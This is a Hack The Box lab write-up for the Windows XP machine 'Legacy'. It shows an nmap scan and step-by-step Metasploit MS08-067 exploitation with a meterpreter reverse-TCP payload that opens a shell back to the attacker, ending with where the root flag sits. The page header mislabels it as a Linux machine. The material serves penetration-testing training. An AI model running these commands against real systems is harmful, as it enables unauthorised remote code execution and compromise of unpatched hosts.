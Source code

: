 ```yaml
---
layout: default
title: LEGACY
description: by Hack The Box
---
```


<h3 align="center">
Linux Machine
</h3>

# Enumeration

Legacy is a Windows XP machine that has a vulnerability in the microsoft-ds services

1. Let's scan for open port

   ```
   ┌──(schoon3r㉿nexer)-[~/Engagements/THM]
   └─$ nmap 10.10.10.4 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 19:18 EST
   Nmap scan report for 10.10.10.4
   Host is up (0.031s latency).
   Not shown: 997 filtered tcp ports (no-response)
   PORT     STATE  SERVICE       VERSION
   139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
   445/tcp  open   microsoft-ds  Windows XP microsoft-ds
   3389/tcp closed ms-wbt-server
   Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

   Host script results:
   |_clock-skew: mean: 5d00h58m55s, deviation: 1h24m51s, median: 4d23h58m54s
   |_smb2-time: Protocol negotiation failed (SMB2)
   |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3a:7e (VMware)
   | smb-security-mode:
   |   account_used: <blank>
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   | smb-os-discovery:
   |   OS: Windows XP (Windows 2000 LAN Manager)
   |   OS CPE: cpe:/o:microsoft:windows_xp::-
   |   Computer name: legacy
   |   NetBIOS computer name: LEGACY\x00
   |   Workgroup: HTB\x00
   |_  System time: 2021-11-30T04:17:53+02:00

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 51.38 second
   ```

2. Since port 3389 is closed, we will not bother for now. Let's bring up google and search string within the version of port 445 (google: windows xp microsoft-ds exploit)
3. First search result is from Rapid7 >> S08-067... let's read
4. Looks like its a metasploit exploit. Let's fire it up.
5. In msfconsole

   ```
   msf6 > search ms08_067

   msf6 > use 0

   msf6 exploit(windows/smb/ms08_067_netapi) > options

   Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    135              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


   Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.15.37    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


   Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


   msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
   rhosts => 10.10.10.4

   msf6 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.14.6
   lhost => 10.10.14.6

   msf6 exploit(windows/smb/ms08_067_netapi) > set rport 445
   rport => 445

   msf6 exploit(windows/smb/ms08_067_netapi) > run
   ```

6. Important

   - you need to set the lhost to your tun0's IP address
   - also change the RPORT... for some reason the default rport is 135

7. Once you get a shell... you can then traverse the network. It's a windows machine so yeah!
8. Root.txt is available in c:\Documents and Settings\Administrator\Desktop

<br><br><br>

# Reference

1. https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/

<br><br>

[back to HOME](./)
